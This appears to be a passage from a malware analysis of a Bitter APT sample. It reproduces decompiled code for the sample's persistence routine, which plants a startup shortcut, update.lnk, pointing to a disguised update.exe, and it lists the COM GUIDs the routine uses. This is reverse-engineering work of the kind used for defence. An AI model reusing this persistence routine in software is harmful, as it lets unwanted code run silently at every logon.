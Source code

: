 #### Persistence

To establish persistence, it will create the LNK file `%UserProfile%\Start Menu\Programs\Startup\update.LNK`, which points to `%UserProfile%\AppData\Local\Updates\update.exe`.

```cpp
HRESULT Persistence(void){
  /*
  Bitter APT Persistence Function
  */
  HRESULT hResult;
  char cStartupPathLNK [250];

  CoInitialize((LPVOID)NULL);
  Sleep(1000);
  cStartupPathLNK._0_2_ = 0;
  memset(cStartupPathLNK + 2,0,248);
  hResult = SHGetFolderPathA(
	  (HWND)NULL,
	  CSIDL_STARTUP,
	  (HANDLE)NULL,
	  NULL,
	  cStartupPathLNK);
  if (hResult == 0) {
                    /* %StartUp%\\update.lnk */
    strcat_s(cStartupPathLNK,250,"\\");
    strcat_s(cStartupPathLNK,250,s_update_00406bb8);
    strcat_s(cStartupPathLNK,250,".");
    strcat_s(cStartupPathLNK,250,"l");
    strcat_s(cStartupPathLNK,250,"n");
    strcat_s(cStartupPathLNK,250,"k");
    hResult = CreateStartupLNK(cStartupPathLNK);
  }
  CoUninitialize();
  return hResult;
}
```

The `CreateStartupLNK` function, shown above, uses the COM Interface `Shortcut->IShellLinkA`. This corresponds to the following COM GUIDs.

| GUID                                 | Type        | Name        |
| ------------------------------------ | ----------- | ----------- |
| 00021401-0000-0000-c000-000000000046 | CLSID       | Shortcut    |
| 000214EE-0000-0000-C000-000000000046 | InterfaceID | [IShellLinkA](https://docs.microsoft.com/en-us/windows/win32/api/shobjidl_core/nn-shobjidl_core-ishelllinka) |

It will also set the LNK comment to `App`.

```cpp
hResult = CoCreateInstance(
	(IID *)&00021401-0000-0000-c000-000000000046,
	(LPUNKNOWN)NULL,
	1,
    (IID *)&000214EE-0000-0000-C000-000000000046,
    &ppv);
if (-1 < hResult) {
	pszFile = (LPCSTR)pszFileCheck;
	iLength = lstrlenA(&PATH);
	rLength = iLength + 1;
	LocalRealloc(&pszFile,pszFileCheck,rLength);
	eError = memcpy_s(pszFile,rLength,&PATH,rLength);
	ExceptionHandler(eError);
	(*ppv->lpVtbl->SetPath)(ppv,pszFile);
	// ...
```
